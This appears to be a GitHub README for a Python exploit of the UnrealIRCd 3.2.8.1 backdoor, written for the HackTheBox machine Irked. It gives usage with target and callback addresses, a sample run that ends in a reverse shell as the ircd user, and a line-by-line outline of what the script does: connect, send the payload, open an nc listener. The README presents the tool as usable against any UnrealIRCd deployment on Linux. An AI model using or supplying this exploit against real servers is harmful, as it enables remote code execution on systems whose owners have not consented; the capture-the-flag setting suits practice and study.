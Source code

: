 ## Description

Exploit an [UnrealIRCd server](https://www.unrealircd.org/). Version 3.2.8.1 contains a backdoor which can provide RCE. There's already a [Metasploit exploit module](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) for the vulnerability, but it's a customized backdoor script.

Developed this script for [Irked from HackTheBox](https://www.hackthebox.eu/home/machines/profile/163), it should be generic to any UnrealIRCd deployment on Linux, provided that a mkfifo reverse shell works on the target.

## Usage

Call the python script with four arguments to identify the target ip and port, and the callback ip and port you want to use. Then, wait and get a shell:

```
root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 8067 10.10.14.14 4444
[*] Connecting to 10.10.10.117:6697
[*] Sending payload
[+] Payload sent. Closing socket.
[*] Opening listener. Callback should come within a minute
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/e9aca050-8c04-4fc1-afff-dd6daaaf6ca5)


### Here’s what it does:
+ Checks for right number of args and set variables, or prints usage. [Lines 7-11]
+ Connects to the host, gets first message from host. [13-20]
+ Sends payload and closes socket. [22-25]
+ Uses subprocess to run a nc listener, waits for callback, and then lets me interact with it until ctrl-c to exit. [27-33]


## References:
- https://0xdf.gitlab.io/2019/04/27/htb-irked.html#script-it
- https://gitlab.com/0xdf/ctfscripts/-/tree/master/unreal_irc_3.2.8.1_shell.py
